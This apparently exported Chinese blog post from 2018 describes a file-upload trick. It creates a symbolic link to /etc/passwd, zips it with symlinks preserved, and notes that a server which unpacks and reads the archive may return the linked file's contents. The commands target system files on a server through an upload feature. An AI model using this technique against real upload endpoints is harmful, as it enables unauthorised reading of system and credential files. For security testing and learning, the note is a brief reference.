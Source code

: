 ```yaml
---
id: 269
title: 上传一种骚姿势
date: 2018-09-26T18:19:43+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=269
permalink: /?p=269
categories:
  - 未分类
---
```

<blockquote class="tr_bq">
  <p>
    ln -s /etc/passwd link
  </p>
</blockquote>

2. zip the created link while preserving symlinks:

<blockquote class="tr_bq">
  <p>
    zip &#8211;symlinks test.zip link
  </p>
</blockquote>

> 如果解压读取的话可能读的是超链接的内容    条件有点苛刻。。。